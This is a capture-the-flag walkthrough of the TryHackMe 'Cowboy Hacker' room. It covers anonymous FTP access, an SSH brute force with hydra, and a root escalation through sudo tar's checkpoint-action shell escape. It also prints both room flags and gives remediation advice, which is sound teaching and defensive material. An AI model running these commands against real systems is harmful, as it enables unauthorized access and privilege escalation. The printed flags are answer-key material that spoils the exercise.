

# Cowboy Hacker Write-up

## Cowboy Hacker

> **Scope:** This walkthrough covers the authorized [TryHackMe Cowboy Hacker room](https://tryhackme.com/room/cowboyhacker). Only test systems you own or are authorized to assess.

### Overview

The target exposed FTP, SSH, and HTTP. Anonymous FTP revealed a user hint and a focused password list. One entry authenticated over SSH. A `sudo` rule for `tar` then provided root access.



### Reconnaissance

A RustScan scan identified three TCP services:

```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

FTP ran `vsFTPd 3.0.5`. SSH and HTTP warranted follow-up after reviewing the FTP service.

### Anonymous FTP access

Anonymous login succeeded. The directory contained two readable files:

```
locks.txt
task.txt
```

Download both files:

```bash
ftp TARGET_IP
# username: anonymous
get task.txt
get locks.txt
```

`task.txt` named `lin`. `locks.txt` contained 26 candidate passwords themed around the room.


The password value is intentionally omitted. Never publish reusable credentials.


### SSH access

Use the recovered username and the focused candidate list only within the authorized lab:

```bash
hydra -l lin -P locks.txt ssh://TARGET_IP
ssh lin@TARGET_IP
```

The valid candidate authenticated as `lin`.

The user flag was stored on the desktop:

```bash
cat ~/Desktop/user.txt
```

```
THM{CR1M3_SyNd1C4T3}
```

### Privilege escalation

Inspect the permitted `sudo` commands:

```bash
sudo -l
```

`lin` could run `/bin/tar` as root. GNU tar supports checkpoint actions. A checkpoint action can execute a program while creating an archive.

```bash
sudo tar cf /dev/null /dev/null \
  --checkpoint=1 \
  --checkpoint-action=exec=/bin/sh
```

The command opened a root shell:

```bash
id
```

```
uid=0(root) gid=0(root) groups=0(root)
```

Read the root flag:

```bash
cat /root/root.txt
```

```
THM{80UN7Y_h4cK3r}
```

### Findings and remediation

#### Anonymous FTP exposed sensitive material

The FTP server permitted anonymous access. It disclosed a username hint and a targeted password list.

* Disable anonymous access unless it has a defined business need.
* Remove credentials and password lists from FTP-accessible paths.
* Restrict FTP access with authentication and network controls.

#### Weak password enabled SSH access

The exposed wordlist included a valid SSH password for `lin`.

* Enforce unique, long passwords or deploy SSH keys.
* Add rate limiting and monitoring for authentication attempts.
* Rotate compromised credentials immediately.

#### Sudo allowed a shell-capable utility

The `sudo` rule allowed `tar` as root. Its checkpoint action executed `/bin/sh` with root privileges.

* Avoid unrestricted `sudo` access to general-purpose utilities.
* Allow only fixed scripts with tightly controlled arguments.
* Review `sudoers` rules against known shell escapes.

### Key takeaway

Small exposures can chain into full compromise. Anonymous file access disclosed password material, and an overly broad `sudo` rule converted user access into root access.
